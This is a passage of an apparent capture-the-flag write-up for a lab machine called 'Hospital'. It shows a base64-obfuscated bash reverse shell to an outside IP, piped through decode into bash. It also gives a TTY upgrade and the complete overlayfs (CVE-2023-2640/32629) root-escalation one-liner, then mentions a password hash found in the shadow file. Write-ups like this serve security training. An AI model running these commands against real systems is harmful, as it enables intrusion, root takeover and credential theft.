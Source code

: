 this command gave us the following B64 encoded string 
```
L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTg0LzQ0MyAwPCYxIDI+JjE=
```

Then using this B64 string our payload will look like this:

```
echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuMTg0LzQ0MyAwPCYxIDI+JjE= | base64 --decode | bash
```

After getting the reverse shell we can make our shell a bit cleaner with the following TTY trick in python

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Foothold

### Escalate container privileges

After doing some local linux enumeration using linpeas i noticed that the os version was outdated and should be vulnerable to the fs overlay exploit. For more information on this exploit check the [github page](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main)
```
uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We can exploit this by executing the following bash commands.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```
![Root shell](/assets/img/Hospital/Hospital_05.png)



Now with our new root permission within the container we can enumerate the entire system without any restriction. After looking through the file system i noticed that there was a second user hash within the shadow file of **drwilliams**
